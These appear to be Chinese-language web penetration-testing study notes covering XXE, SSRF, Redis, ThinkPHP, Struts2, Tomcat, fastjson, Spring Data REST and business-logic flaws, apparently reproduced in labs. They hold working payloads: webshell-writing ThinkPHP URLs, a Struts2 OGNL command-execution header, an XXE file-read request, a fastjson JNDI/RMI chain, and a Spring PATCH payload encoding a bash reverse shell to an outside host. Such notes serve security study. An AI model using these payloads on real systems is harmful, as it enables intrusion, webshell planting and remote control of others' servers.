			                            <li><a href="#about" data-toggle="tab">tips:</a></li>
			                            <li><a href="javascript:void(0)" ><span style="color:red;" class="msg"></span></a></li>
										<li><a href="javascript:void(0)"></a></li>
			                        </ul>
								</div>

		                        <div class="tab-content">
		                            <div class="tab-pane" id="about">
		                              <div class="row">
		                                	<div class="col-sm-6">
												<div class="input-group" style="margin-left: 30%;">
													<span class="input-group-addon">
														<i class="iconfont icon-icon30" style="font-size:25px;"></i>
													</span>
													<div class="form-group label-floating">
			                                          <label class="control-label">UserName</label>
			                                          <input id="username" name="username" style="width: 200%;" type="text" class="form-control">
			                                        </div>
												</div>
												<div class="input-group" style="margin-left: 30%;">
													<span class="input-group-addon">
														<i class="iconfont icon-mima" style="font-size:25px;"></i>
													</span>
													<div class="form-group label-floating">
													  <label class="control-label">Password</label>
													  <input id="password" name="password" style="width: 200%;" type="password" class="form-control">
													</div>
												</div>
		                                	</div>
		                            	</div>
		                            </div>
		                            
		                            
		                        </div>
		                        <div class="wizard-footer">
		                            <div class="pull-right">
		                                <input type='button' class='btn btn-fill btn-success btn-wd' name='next' value='login' onclick="javascript:doLogin()" />
		                            </div>

		                            <div class="clearfix"></div>
		                        </div>
		                    </form>
		                </div>
		            </div> <!-- wizard container -->
		        </div>
	        </div><!-- end row -->
	    </div> <!--  big container -->

	    <div class="footer">
	        <div class="container text-center">
	             Copyright By <a href="https://etimeci.com">etimeci</a>
	        </div>
	    </div>
	</div>
</body>
<!--   Core JS Files   -->
<script src="js/jquery-2.2.4.min.js" type="text/javascript"></script>
<script src="js/bootstrap.min.js" type="text/javascript"></script>
<script src="js/jquery.bootstrap.js" type="text/javascript"></script>

<!--  Plugin for the Wizard -->
<script src="js/material-bootstrap-wizard.js"></script>

<script src="js/jquery.validate.min.js"></script>
<script type='text/javascript'> 
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
</script>
</html>
```

****

#### 外部DTD


```cmd
//开一个8000端口
python -m http.server 8000
```


```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 260
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<!DOCTYPE root [
  <!ENTITY % test SYSTEM "http://192.168.71.29:8000/Desktop/eval.dtd">
  %test;
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
]>
<user><username>&xxe;</username><password>admin</password></user>
```

****

#### ssrf获取正常文件

```php
//2.php
<?php
function curl($url){
    $ch=curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch,CURLOPT_HEADER,0);
    curl_exec($ch);
    curl_close($ch);
}
$url=$_GET['url'];
curl($url);
?>
```


****

#### Redis未授权访问


- 确保以上两个虚拟机`同时开启`
- 使用端口扫描工具扫描ip并访问


- 查看是否能够`成功`访问到`redis`服务器

- ```http
  http://192.168.234.170/ssrf3.php?url=http://192.168.234.100
  ```


- 利用`dict协议`测试服务器是否开放了`redis`服务

- ```http
  http://192.168.234.170/ssrf3.php?url=dict://192.168.234.100:6379
  ```




- 这里我使用`物理机`进行监听



- 监听端口

- ```cmd
  nc -lvp 7777
  ```


- `成功监听`,并且获取权限,查看端口号


****

### 中间件与框架漏洞

#### ThinkPhp漏洞

> ThinkPhp`5.0.20`远程代码执行漏洞

- 漏洞`产生`:由于没有正确处理控制器名,导致网站没有开启强制路由的情况(即默认情况下)可以执行任意方法,从而导致`远程命令执行漏洞`
- 影响`版本`:`5.0.x < ThinkPhp 5.1.x < 5.1.31`


#### ThinkPhp`5.0.20`远程代码执行

- 报错查看`版本信息`

.

- 构造`payload`

- ```php
  ?s=/Index//think/app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
  ```


- 执行`系统命令`-->`whoami`

- ```php
  ?s=index/think/app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
  ```

  

- 写入`webshell`

- ```php
  ?s=/index//think/app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell5.php&vars[1][]=<?php @assert($_REQUEST['cmd']);echo "success";?>
  ```

  

- 使用`工具检测`


------

> ThinkPhp`6.0.12`文件包含漏洞

- 漏洞`产生`:当ThinkPhp开启了`多语言功能`时,攻击者可以通过`lang`参数和`目录穿越`实现`文件包含`,当存在其它扩展模块如`pear`扩展时,攻击者可进一步利用文件包含实现远程代码执行
- `限制`:该漏洞最大的限制点就是被包含文件的`后缀`一定是`php`,要包含一个php文件,利用的方式就少了,但我们可以利用`pearcmd`
- 影响`版本`:`6.0.1 < ThinkPhp < 6.0.13`

#### ThinkPhp`6.0.12`文件包含

- 写`webshell`

- ```php
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval$_REQUEST['cmd']);?+/tmp/cmd.php
  ```

  

- 写`文件`-->shell.php

- ```php
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&<?=phpinfo()?>+/tmp/shell.php
  ```

  

- 写`文件`-->shell123.php

- ```php
  ?lang=../../../../../../../../../tmp/shell123
  ```


- 写`webshell`

- ```
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=eval($_REQUEST['cmd']);?>+/tmp/cmd.php
  ```


- 包含文件`连接shell`

- ```
  ?lang=../../../../../../../../../tmp/cmd&cmd=phpinfo();
  ```


- 连接`shell`


------

#### Laravel漏洞

- 漏洞`原理`:当Laravel开启`Debug`模式时,由于其自带的`Ignition`组件对`flie_get_contents()`和`flie_put_contents()`函数的不安全使用,攻击者可以通过发送恶意请求,构造恶意log文件等方式触发`Phar`反序列化,最终造成`远程代码执行`

- 影响`版本`:Laravel < 8.4.2

- Laravel是一个由Taylor Otwell所创建，免费的开源 PHP Web 框架。在开发模式下，Laravel使用了lgnition提供的错
  误页面，在lgnition 2.5.1及之前的版本中，有类似这样的代码:

  ```php
  $contents = file get contents($parameters['viewFile',); file put contents($parameters['viewfile”, $contents);
  ```

  攻击者可以通过phar://协议来执行反序列化操作，进而执行任意代码。

  


------

#### Struts2漏洞

- 漏洞`产生`:在使用基于`jakarta`插件的文件上传功能时,有可能存在`远程命令执行`.用户可在上传文件时通过修改`http请求头`中的`Content-Type`值来触发该漏洞,执行系统命令
- 影响`版本`:`2.5 - 2.5.10` `2.3.5 - 2.3.31`

> 漏洞复现

```php
Content-Type:"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"boundary=----WebKitFormBoundaryXx80aU0pu6vrsV3z
```


#### 判断strus2框架

- 常规办法:
  - 1、通过页面回显的错误消息来判断，页面不回显错误息时则无效。
  - 2、通过网页后缀来判断，如`.do.action`，有可能不准。
    3、判断` /struts/webconsole.html `是否存在来进行判淤需要 devMode 为 true。
- 其它的方法
  - 通过 actionErrors。要求是对应的 Action 需要继承自actionsupport 类。
  - 利用方法:如原始 URL为 https://threathunter.org/则检测所用的 URL为 https://threathunter.org/?actionErrors=1111
    uts2 构建的。异常包括但不限于以下几种现象如果返回的页面出现异常，则可以认定为目标是基于 St
    - 1、页面直接出现 404 或者 500 等错误。
    - 2、页面上输出了与业务有关错误消息，或者1111被回显到了页面上。
    - 3、贡面的内容结构发生了明显的改变。
    - 4、页面发生了重定向。

------

#### Shiro漏洞

> Shiro550漏洞复现

- `Apache Shiro`框架提供了记住密码的功能(RememberMe)，用户登录成功后会生成经过加密并编码的cookie。在服务端对`rememberMe`的`cookie`值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞。
  那么，Payload产生的过程:
  命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值
  在整个漏洞利用过程中，比较重要的是`AES加密`的密钥，如果没有修改默认的密钥那么就很容易就知道密钥了.
- 影响`版本`:`Apache Shiro` < `1.2.4`
- 特征:返回包中会包含`rememberMe=deleteMe`字段,这种情况大多会发生在登录处，返回包里包含remeberMe=deleteMe字段，
  这个是在返回包中(Response),如果返回的数据包中没有remeberMe=deleteMe字段的话，可以在数据包中的Cookie中添加
  remeberMe=deleteMe字段这样也会在返回包中有这个字段




> Shiro721漏洞复现

- 在Shiro721漏洞中，由于Apache Shiro cookie中通过 AES-128-CBC 模式加密的rememberMe字段存在问题，用户可通
  过Padding Oracle Attack来构造恶意的rememberMe字段，并重新请求网站，进行反序列化攻击，最终导致任意代码执行
  虽然使用Padding Oracle Attack可以绕过密钥直接构造攻击密文，但是在进行攻击之前我们需要获取一个合法用户的
  Cookie.
- 漏洞流程
  登录网站获取合法Cookie
  使用rememberMe字段进行Padding Oracle Attack，获取intermediary
  利用intermediary构造出恶意的反序列化密文作为Cookie
  使用新的Cookie请求网站执行攻击
  影响版本
- Apache Shiro <= `1.4.1`
  特征判断
  响应包中包含字段remember=deleteMe字段


> Shiro721 和 Shiro550 的差异?
> Shiro721和Shiro550一样，都是生成恶意RememberMe Cookie反序列化执行代码，不同之处是RememberMe cookie的生成方式。
> shiro550 序列化利用需要知道AES加密的key，使用这个key直接构造Payload。
> Shiro721 序列化是利用已登录用户的合法RememberMe Cookie值，通过服务器对填充密钥的不同响应，从而判断加密值
> 是否被正确填充，构造Payload。

------

#### Tomcat漏洞

##### tomcat任意文件写入漏洞*

> Tomcat任意文件写入

- Tomcat任意文件写入漏洞

- CVE-2017-12615

- 漏洞`产生`:当 Tomcat 启用了 HTTP PUT 请求方法(将 readonly 初始化参数由默认值设置为 false)，攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

- 漏洞`危害`:可以通过PUT方法写webshel，从而控制服务器,

- 漏洞`检测`:通过访问:Http://localhost:8080，抓包后发起PUT请求，根据响应包为201即可确定存在该漏洞。

- `复现`:

  ```cmd
  直接利用PUT方法写webshel
  
  Webshell内容利用工具生成
  Tomcat默认不允许写isp文件后缀
  此处根据不同系统特性绕过
  Linux: jsp/
  Windows: jsp%20和jsp::$DATA
  ```

  ------

#### Tomcat远程部署漏洞

> Tomcat远程部署漏洞

- 漏洞`产生`:这是JSP/PHP网站远程部署的一个工具，管理员只需要远程上传一个WAR格式的文件，便可以发布到网站，方便了于发人员部署代码的同时，也方便了攻击者上传木马。
- 漏洞`危害`:攻击者可以通过构造war进行上传木马文件，从而控制服务器
- 漏洞检测:通过访问:ttp://localhost:8080/manager 管理地址，
  尝试`弱口令`或默认口令，若能登陆成功，则存在此漏洞。
- 漏洞`复现`过程:通过弱密码登录管理界面` tomcat/tomcat`



- 使用`弱口令`进入后台,上传`war包`(准备一个shell,将其压缩成.rar,改后缀为`.war`)

  


------

#### Tomcat任意文件读取漏洞*

> Tomcat任意文件读取

- CVE-2020-1938
- 漏洞`产生`:由于Tomcat在处理AJP请求时,未对请求做任何验证导致产生任意文件读取漏洞。
- CVE-2020-1938 又名GhostCat，由于Tomcat AJPt议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可件，例如可以读取 webapp 配置文件或源代码读取或包含 Tomcat 上所有 webapp 目录下的任意文信息。
- 漏洞`危害`:可以通过tomcat AJP协议读取文件，查看服务器敏感
- 漏洞`检测`:幽灵猫漏洞。通过工具扫描开放8009端口即存在CVE-2020-1938l

```php
python2 CVE-2020-1938.py 192.168.100.40 -p 13894 -f /WEB-INF/web.xml
```

------

#### JBOS漏洞

> JBoss 5.x/6.x 反序列化漏洞

- 漏洞`编码`:CVE-2017-12149

- 漏洞描述:利用漏洞可在未经任何身份验证的服务器主机上执行任意代码，

- 漏洞`分析`:该漏洞为 Java反序列化错误类型，存在于 Jboss 的 Httplnvoker 组件中的 ReadOnlyAccessFilter 过滤器该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

- 漏洞复现:使用账号密码`admin vulhub`登录后台


------

#### WebLogic

#### weblogic10 cve-2017漏洞复现

> weblogic10 cve-2017漏洞复现

- 端口`7001`


------

#### weblogic 远程部署漏洞

> 远程部署漏洞复现

- 默认账号密码`weblogic Oracle@123`


#### weblogic-cve-2023-21839*

> weblogic-cve-2023-21839

------

### 组件与应用漏洞

#### fastjson反序列化漏洞

> 漏洞背景

- 漏洞`原理`:Fastjson 在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。fastjson 默认使用 @type 指定反序列化任意类，攻击者可以通过在 java 常见环境中寻找能够构造恶意类的方法，通过反序列化的过程中调用的 getter/setter 方法，以及目标成员变量的注入来达到传参的目的，最终形成恶意调用链。

- 利用`流程`

  1.首先开启HTTP服务器，并将恶意类放在目录下
  2.开启恶意RMI服务器
  3.攻击者控制url参数为上一步开启的恶意RMI服务器地址
  4.恶意RMI服务器返回ReferenceWrapper类
  5.目标 (JNDI Client)在执行lookup操作的时候，在decodeObject中将ReferenceWrapper变成Reference
  类，然后远程加载并实例化我们的Factory类(即远程加载我们HTTP服务器上的恶意类)，在实例化时触发静
  态代码片段中的恶意代码

##### 环境搭建

- 安装JDK1.8[[下载地址](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)]

```sh
mkdir -p /usr/local/java
cp jdk-8u251-linux-x64.tar.gz  /usr/local/java
tar -zxvf jdk-8u251-linux-x64.tar.gz
```

- 配置环境变量

```sh
vim /etc/profile

# 进入环境变量
JAVA_HOME=/usr/local/java/jdk1.8.0_251 
PATH=$PATH:$HOME/bin:$JAVA_HOME/bin
export JAVA_HOME
export PATH

# 通知Java目录
update-alternatives --install "/usr/bin/java" "java" "/usr/local/java/jdk1.8.0_251/bin/java" 1
update-alternatives --install "/usr/bin/javac" "javac" "/usr/local/java/jdk1.8.0_251/bin/javac" 1
update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_251/bin/javaws" 1
update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_251/bin/javaws" 1
```

- 切换Java版本

```sh
update-alternatives --config java
```

------

- 利用`marshalsec`编译开启`RMI`服务
- 利用marshalsec编译并开启RMI服务:
  1. git clone https://github.com/mbechler/marshalsec.git 下载项目文件
  2. apt-get install maven 安装maven项目管理工具
  3. cd marshalsec 切换至marshalsec目录
  4. mvn clean package -DskipTests 使用maven项目管理工具打包文件

##### 目录结构


##### 编辑`恶意类`代码


```php
//使用javac编译成.class
javac fastjsonshell.java
```


```cmd
//在当前目录开启web服务
python3 -m http.server 9090
```


```cmd
//利用marshalsec项目启动RMI服务器,监听9999端口
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.136.219:9090#fastjsonshell" 9999
```


```cmd
//监听 8888 端口
nc -lvvp 8888
```

##### BP抓包发送POST数据

```http
POST / HTTP/1.1
Host: 192.168.41.54:8090
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/json
Content-Length: 0

{
 		"b":{
			"@type":"com.sun.rowset.JdbcRowSetImpl",
			"dataSourceName":"rmi://192.168.41.219:9999/fastjsonshell",
			"autoCommit":true
	}
}
```


------

#### Spring Data Rest远程命令执行命令

> 漏洞背景

- 介绍:Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。
- 影响`版本`
  Spring Data REST versions < 2.5.12,2.6.7, 3.0 RC3
  Spring Boot version < 2.0.0M4
  Spring Data release trains < Kay-RC3

```python
//使用python交互式命令行将 执行命令转化成为 ascii
",".join(map(str, (map(ord,"bash -i>&/dev/tcp/192.168.41.219/8888 0>&1"))))

'98,97,115,104,32,45,105,62,38,47,100,101,118,47,116,99,112,47,49,57,50,46,49,54,56,46,52,49,46,50,49,57,47,56,56,56,56,32,48,62,38,49'
```


------


------


------


------

- 发现不对劲以后对`http://192.168.41.54:8080/customers/1`抓包
- 修改为`PATCH`请求


------

- `Base64`编码 


- `Ascii`编码


- 去掉多于的部分

```ascii
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,73,120,79,83,56,52,79,68,103,52,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
```

```php
PATCH /customers/1 HTTP/1.1
Host: 192.168.41.54:8080
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
If-None-Match: "0"
If-Modified-Since: Sun, 22 Sep 2024 08:41:10 GMT
Connection: keep-alive
Content-Type: application/json-patch+json
Content-Length: 458

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,73,120,79,83,56,52,79,68,103,52,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname", "value": "vulhub" }]
```


> log4j*

****

### 逻辑漏洞

#### 业务逻辑漏洞的产生和常见漏洞

- 漏洞的`产生`:
  - 由于`程序逻辑不严谨`或逻辑`太过复杂`,导致一些逻辑分支`不能正常处理`或`处理错误`,统称为业务逻辑漏洞
  - 简单理解:就是开发人员思维逻辑不够严谨造成的漏洞
- 关注`重点`:
  - 业务流程
  - http/https 请求分析
- `常见漏洞`:
  - 身份认证安全漏洞
  - 支付逻辑漏洞(数据篡改)
  - 任意密码找回漏洞
  - 验证码突破漏洞
  - 接口调用安全
  - 未授权访问漏洞
  - 权限绕过漏洞

------

##### 登录模块---身份认证安全

- 漏洞产生:有些网站对身份认证模块`没有做好安全防护`,导致漏洞产生

- 绕过身份认证办法:

  - 暴力破解,撞库
  - Cookie & Session (重要)
  - 加密

- `暴力破解`

  - 测试方法:在`没有验证码`限制或者`一次验证码可以多次复用`

    - 爆破用户名:当输入的用户名`不存在时`,会显示`请输入正确的用户名`或者`用户名不存在`
    - 已知用户名:admin,密码进行`字典爆破`
    - 使用一个`常用密码`,比如123456`对大量用户`进行爆破

    

    修复方法:

    - `增加验证码`,登录失败的时候,`变换验证码`(验证码不能被工具识别)
    - `限制登录频率`,例如五分钟内登录失败次数超过10次锁定账户一小时
    - `二次验证`,可以添加手机验证码或邮箱验证码

- `撞库`

  - 测试方法:通过收集互联网`已泄露的用户和密码信息`,生成对应的字典,尝试`批量登录其它网站`后,得到一些可以登录的用户,很多用户在不同网站使用的是相同的账号密码,因此可以通过获取用户在A网站的账户从而尝试登录B网址.
  - 修复方法:养成用户`良好的上网行为习惯`,在不同的网站注册时尽量不使用相同的账号密码

- `Cookie和Session类`

  - Cookie:是指某些网站为了`辨别用户身份`,进行session跟踪而`存储在用户本地终端上的数据`(通常经过加密),我们俗称浏览器缓存
  - Session:在网络应用中,称为`会话控制`,Session对象存储`特定用户会话所需的属性及配置信息`.当用户在应用程序之间跳转时,存储在Session对象中的 变量不会丢失,而是在整个用户`会话中一直存在`下去.当用户请求来自应用程序的WEb页面时,如果该用户还没有会话,则WEB服务器会自动创建一个Session对象,与Cookie有一定的相同之处

- `Cookie伪造`:通过修改cookie中的`某个参数`来实现登录其它用户

- 测试方法:

  - 使用一个账号登录,找一个`可以证明身份的页面`,例如首页欢迎xxx或者是个人中心显示昵称的地方
  - 刷新该页面的拦截请求,`观察cookie中的字段和值`,例如userid=xxx,修改cookie中的值,把xxx改成admin
  - forward放行,页面显示admin信息,则存在此问题

- 修复方法:对客户端标识的用户信息,使用`session会话认证方式`,避免通过cookie去仿冒其它人的身份

- `Seesion会话固定攻击`:一种`诱骗`受害者人`使用攻击者指定的会话标识`的攻击手段,利用了服务器的session不变的机制

- 攻击步骤

  - 攻击者通过某种手段`重置`目标用户的`session id`,然后监听用户会话状态
  - 目标用户携带攻击者设定的session id 登录站点
  - 攻击者通过 session id 获得合法的会话

- 攻击者重置session id的方法:通过xss,嗅探等方法取得用户的session,修改数据包

- 修复方法:每次登录成功之后`重新生成session`,sessionid闲置过久时,进行重置session id

- `加密测试`

  - 概念:有些网站在`前端加密`,然后传到`后台`直接`和数据库里的值`做`对比`,这时抓包就知道了加密方式,然后做`暴力破解`

- 测试方法:

  - 对账号密码`登录`,`拦截请求`,查看传输信息是不是通过一些`加密方式对帐号和密码进行了加密`,如果有则存在此问题
  - 对于前端加密后的密码进行暴力破解测试时,可以在bp的intrusder模块中的`payload processing`中选择加密方式
  - 修复方法:把`加密对比`的方法放到`后台去执行`


------

##### 数据篡改---业务一致性

- 手机号篡改:
  - 步骤:`抓包`修改手机密码,之后进行`越权判断`,进入其它人的页面进行操作
  - 修复:通过`session`机制`判断身份`,还需校验`手机号与登录者`身份`是否一致`
- 邮箱和用户名篡改:
  - 步骤:抓包修改用户名和邮箱为其他用户或邮箱
  - 修复:通过`session`机制`判断身份`,如需传输邮件,要`判断发件人与session一致`
- 订单ID篡改:
  - 步骤:注册一普通用户,修改遍历订单号,获取其他用户订单详情(平行越权)
  - 修复:查看订单是通过`session`判断用户身份,做好`平行权限控制`
- 商品编号篡改:
  - 步骤:提交订单时,抓包修改商品标号,导致`商品与价格不符`却`交易成功`
  - 修复:`金额不在客户端传入`,防止被篡改,如必要,则务必`检查交易金额与商品价格`或对`支付金额做签名校验`
- 用户id篡改:
  - 步骤:抓包查看用户的id,修改id(+-1),查看是否能查看其它用户id信息
  - 修复:通过session机制判断身份,如果必须用`userid参数`,要判断`与session是否一致`
- 金额数据篡改:
  - 步骤:在提交订单时进行抓包,修改支付的金额或折扣等相关数据
  - 修复:商品信息如`金额`,`折扣`等`原始数据校验`应来自于`服务器端`,不应该接受客户端传来的值
- 商品数量篡改:
  - 步骤:抓包修改商品数量等字段,将请求中商品数量`修改为负数或0`,查看能否以修改后的数量完成业务流程
  - 修复:产生`异常的交易`行为时直接`限制,阻断`
- 本地js数据篡改:
  - 步骤:部分应用程序通过`JavaScript处理用户提交`的请求,通过修改JavaScript脚本,测试修改后的数据是否影响到用户
  - 修复:服务器校验,跨平台支付调用接口,要做好`数据的完整性校验`,确保一致性
- 最大数限制突破:
  - 步骤:很多商品限制用户购买数量时,服务器仅在页面通过`js脚本限制`,没有在服务器端校验用户提交的数量,通过`抓包修改商品最大数限制`,将请求中的商品数量修改为`大于最大数量限制`,查看能否以修改后的数量完成业务流程
  - 修复:每次提交都对其对应各项信息做`强校验`

------

##### 业务授权安全

- 越权漏洞分类
  - `水平`越权:指`相同权限`的`不同用户`可以`相互访问`
  - 举例:两个`不同的公司`A和B,通过修改请求,公司A可以任意修改B公司的员工,部门,考勤等信息
  - `垂直`越权:指使用`权限低`的用户`可以访问权限较高`的用户
  - 举例:`同一个公司`不同权限的管理员A和B,通过修改请求.管理员A可以修改不在他管辖范围内的员工,考勤,工资等
- 检测手段:
  - 查看所有敏感涉及到用户的操作是否有除了`UId之外的验证方式`,没有的话构造uid访问,可检查是否有漏洞
  - 如果有验证参数,尝试是否可以预知的或者可以猜测出来的
- 发生越权行为的修复方法:
  - 涉及用户信息的操作需要`验证用户身份`,比如查看各种用户信息的情况下,不能只根据uid去搜索,应该再次进行身份验证
  - 特别敏感的操作应该进行`二次操作`

------

#### 任意密码找回的方法

- 用户凭证暴力破解
- 返回凭证
- 邮箱弱token
- 用户凭证有效性
- 重新绑定手机和邮箱
- 服务器验证
- 用户身份验证
- 找回步骤
- 本地验证
- token生成可控
- 注册覆盖
- session覆盖

------

##### 用户凭证暴力破解

- 概念:常见的是找回密码的验证码为4位，并且`服务端没有加以限制`，我们可以通过`爆破出验证码`的方式来找回密码
- 步骤:
  - 验证码的位数:4 or 6，验证码有效时间:1min-15min
  - `验证码爆破`防护绕过
- 修复:
  - 增加验证码`复杂性`和`长度`
  - `限制请求修改次数`

------

##### 返回凭证

- 返回凭证的三种形式
  - url返回凭证
  - 抓包返回凭证
  - 凭证在页面中
- 方法:
  - URL返回凭证:使用firefox的firebug`查看请求链接`,看链接中是否有验证码等密码找回凭证
  - 抓包直接返回:根据手机号找回密码后`抓包`，可以发现验证码直接显示 verifycode=xxxx，如果信息被加密，解密即可(其他信息同理)
  - 密码找回凭证在页面中:通过密保问题找回密码，`查看源码`，密保问题和答案就在源码中显示

------

##### 邮箱弱token

- 获取邮箱弱token的方法:
  - Unix时间戳 + md5
  - 例如:通过邮箱找回密码，正常流程去邮箱查看重置密码链接，发现链接处有一串 md5 加密字符串。字符串解密，类似1491293277(10位)，可以判断为Unix时间戳。
  - `重置他人密码`只需利用他人邮箱发送`重置密码邮件`，在短时间内对`Unix时间戳`进行`暴力破解`，即可获得`重置密码的链接`
  - 用户名:`重置密码链接`直接`使用用户名`进行区别，改变用户名即可更改他人密码
  - 服务器时间:利用两个帐号`同时`点击`找回密码`，去邮箱査看找回密码的链接，发现两者的`随机 token 只差1-2`，而且可以猜测出为服务器时间。所以可以用`一个未知帐号`和`一个已知帐号`同时点击找回密码，稍微`遍历随机 token`，就可以`构造出未
    知帐号的密码找回链接`

------

##### 用户凭证有效

- 通过用户凭证有效性修改密码:
  - 短信验证码:
    - 通过`他人手机号`找回密码，抓包，将他人手机号`替换成自己的手机号`，获取验证码，提交后修改密码
    - 通过`自己手机号`找回密码，获取验证码后抓包，将数据包中的`username改为他人用户名`，提交后成功修改他人密码
  - 邮箱 token
    - 通过邮箱找回密码，访问链接重置密码，输入新密码提交时抓包，虽然有token，但依然可以直接`修改用户ID`进而修改密码

------

##### 重新绑定

- 手机绑定:
  - 给已知账户绑定手机，发现绑定手机的 URL 链接中有 uid 参数，`修改 uid参数为他人的`，即可实现`将他人的账户绑定上自己的手机`，之后`通过手机修改密码`
  - 修改`个人资料处抓包`，修改`userid为他人`，修改`手机号为自己的手机`，即可实现将`他人的账户绑定上自己的手机`，之后通过手机来修改密码
- 邮箱绑定:
  - 通过邮箱找回密码，URL链接中`修改用户ID为他人`，邮箱不变，之后通过链接可以`将他人账户绑定为自己的邮箱`，之后通过邮箱找回密码

------

##### 服务器验证

- 最终提交步骤
- 使用邮箱找回密码，通过链接至修改密码页面，修改密码后提交、抓包，获得`Uid参数，修改为他人`，即可修改其他用户密码
- 服务器验证的验证逻辑为空(绕过认证)
  - 通过密码保护问题找回密码，抓包，`将密码保护问题删除，直接修改密码`，提交
  - 注:此处密保问题和新密码在同一页面

------

##### 跳过验证

- 跳过验证步骤、找回方式、直接到设置新密码页面
  - 正常流程下，密码找回，`查看最后设置新密码页面的 URL`，记录下来。继续返回密码找回处，输入其他用户名，提交找回申请，直接访问上面记录下的修改密码页面，成功修改密码
  - 正常流程下，`修改密码页面抓包`，修改其中的`USERNAME COOKIE`为其他用户(有可能会经过编码，比如 base64)
    提交即可修改其他用户密码，如果抓包其中`有 step 参数`，可以修改这个参数`为最后一步(比如:5)`，提交便可`略过之前的步骤`

------

##### 本地验证

- 在本地验证服务器的返回信息，确定是否执行密码重置，但是其返回信息是可控的内容，或者是可以获得的内容
